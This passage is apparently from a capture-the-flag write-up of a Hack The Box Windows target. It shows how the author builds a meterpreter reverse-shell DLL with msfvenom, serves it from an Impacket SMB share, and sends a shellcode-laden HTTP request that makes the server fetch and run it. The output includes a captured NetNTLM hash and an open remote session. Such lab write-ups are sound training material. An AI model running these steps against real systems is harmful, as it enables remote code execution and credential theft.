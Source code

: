 ```python
r.send(head)
r.close()
```

This makes the server download a .dll from my box and execute it. So I can generate a malicious DLL with msfvenom and have the server fetch it to give me a reverse shell:

```
# msfvenom -p windows/meterpreter/reverse_tcp -o x.dll -f dll LHOST=10.10.14.23 LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of dll file: 5120 bytes
Saved as: x.dll
```

Because the server uses SMB to talk back to us, we'll start an SMB share with Impacket:

```
# /usr/share/doc/python-impacket/examples/smbserver.py share .
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Firing up the exploit...

```
# python smbexploit.py 
191
HEAD /505C042850bb581b5062ffd3909090909090909090909090909090909090909090909090f21250625c5c31302e31302e31342e32335c73686172655c782e646c6c HTTP/1.1
Host: dev.bighead.htb
Connection: close
...
[*] Incoming connection (10.10.10.112,60888)
[*] AUTHENTICATE_MESSAGE (PIEDPIPER\Nelson,PIEDPIPER)
[*] User Nelson\PIEDPIPER authenticated successfully
[*] Nelson::PIEDPIPER:4141414141414141:e8e4ea60eb43ad439299c50c245654ca:010100000000000000f1a060fc85d4017e4c61f17754814500000000010010004f00650051004a00490073005600450002001000730047006b007400540068006f005600030010004f00650051004a00490073005600450004001000730047006b007400540068006f0056000700080000f1a060fc85d40106000400020000000800300030000000000000000000000000200000282e2960465001d017bb89eae52e3c9002f1edefda8c004fd0186e57fb9bd3eb000000000000000000000000
[*] Disconnecting Share(1:IPC$)
...
msf exploit(multi/handler) > [*] Sending stage (179779 bytes) to 10.10.10.112
[*] Meterpreter session 1 opened (10.10.14.23:4444 -> 10.10.10.112:60889) at 2018-11-26 21:53:32 -0500

msf exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: PIEDPIPER\Nelson
```

